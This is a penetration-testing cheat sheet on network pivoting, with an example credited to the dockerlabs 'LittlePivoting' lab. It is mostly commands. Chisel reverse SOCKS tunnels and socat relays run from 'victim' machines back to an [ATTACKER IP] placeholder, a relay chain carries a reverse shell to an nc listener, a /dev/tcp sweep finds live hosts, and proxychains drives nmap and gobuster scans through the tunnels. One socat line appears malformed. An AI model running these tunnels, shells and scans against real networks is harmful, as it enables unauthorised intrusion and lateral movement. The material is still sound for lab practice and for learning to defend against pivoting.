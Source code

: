 # Pivoting


It could be handy to have the executables to share between every new machine:
- <https://github.com/andrew-d/static-binaries>







##############################################################
## Example
(Taken from dockerlabs.es "LittlePivoting")

### Step 1
Attacker machine:
chisel server --reverse -p 1111
Add `socks5  127.0.0.1 1080` to `/etc/proxychains4.conf`

victim 1:
chisel client [ATTACKER IP]:1111 R:socks


### Step 2
victim 1:
socat TCP-LISTEN:2222,fork TCP:[ATTACKER IP]:1111

attacker machine:
Add `socks5  127.0.0.1 2222` to `/etc/proxychains4.conf`

victim 2:
chisel client [VICTIM 1 IP]:2222 R:2222:socks

- Now we can access both victim 1 and victim 2 machines from the attacker machine!

### Step 3:
victim 2:
socat TCP-LISTEN:3333,fork TCP:[VICTIM 1 IP]:4444

victim 1:
socat TCP-LISTEN:4444,fork TCP:[ATTACKER IP]:5555

attacker machine:
nc -lvnp 5555

victim 3:
payload: reverse shell to port 3333




##############################################################






## SSHuttle
- <https://www.youtube.com/watch?v=1BLAeXOQOl4>







## chisel
- <https://github.com/jpillora/chisel>

Note: depending on the environment, the latest version may not work.

```
# listen from attacker machine
chisel server --reverse -p [PORT NUMBER]

# from victim machine 1
chisel client [ATTACKER IP]:[PORT NUMBER] R:socks


```



### Proxychains
- dynamic_chain: Uses proxies in the order they appear in the list. All proxies in the chain must be available.
- random_chain: Chooses a random proxy from the list for each connection.
- static_chain: Uses proxies in the exact order they are listed.


unset `strict_chain`` and set `dynamic_chain` in `/etc/proxychains.conf`
at the end of proxychains.conf add `socks5 127.0.0.1 [tunnel PORT]`
Note: Tunnel port is 1080 by default
also in the firefox:
- manual proxy configuration > Sock Host: 127.0.0.1 Port: [tunnel PORT]
or
- set foxy proxy
or
- launch it using `proxychains -q firefox`	









## Enumeration

### see active hosts pwned machines
```bash

hostname -I


# script 1
#!/bin/bash
for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 20.20.20.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 20.20.20.$i está activo"
        fi
done


# script 2 (in case ping is not installed)
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$host/80 &> /dev/null" &&
	echo "30.30.30.$host";
done; wait
	
```

### nmap
```

proxychains nmap -sn -n x.x.x.0/24 
sudo proxychains -q nmap -p [PORT NUMBER] -sCVT -Pn -n [IP]	
proxychains nmap -sCVT 20.20.20.0/24 2>/dev/null
```



### gobuster
```
gobuster dir -u http://20.20.20.3 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
	-x php,doc,html,txt \
	--proxy socks5://127.0.0.1:1080
```










## socat
On Windows use `netsh`



# Scenario: this machine(n2) is the pivot and want to redirect the chisel client to the attacker chisel server listening on port 1234 on machine(n1)
```
# on machine n3
chisel client [IP machine n2]:1111 R:1111:socks
# on machine n2
socat TCP-LISTEN:1111,fork TCP:1111:1234
# on machine n1
echo -e "socks5 127.0.0.1 1111" | sudo tee -a /etc/proxychains4.conf
```
